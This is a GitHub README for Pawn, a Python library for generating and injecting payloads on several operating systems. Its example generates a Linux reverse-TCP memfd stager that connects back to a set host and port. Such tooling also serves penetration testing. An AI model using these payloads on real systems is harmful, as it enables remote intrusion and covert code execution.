 # Pawn

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn/forks">
        <img src="https://img.shields.io/github/forks/EntySec/Pawn?color=green">
    </a>
    <a href="https://github.com/EntySec/Pawn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pawn?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/Pawn">
        <img src="https://www.codefactor.io/repository/github/EntySec/Pawn/badge" alt="CodeFactor" />
    </a>
</p>

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload, send_size = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
print(payload)
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
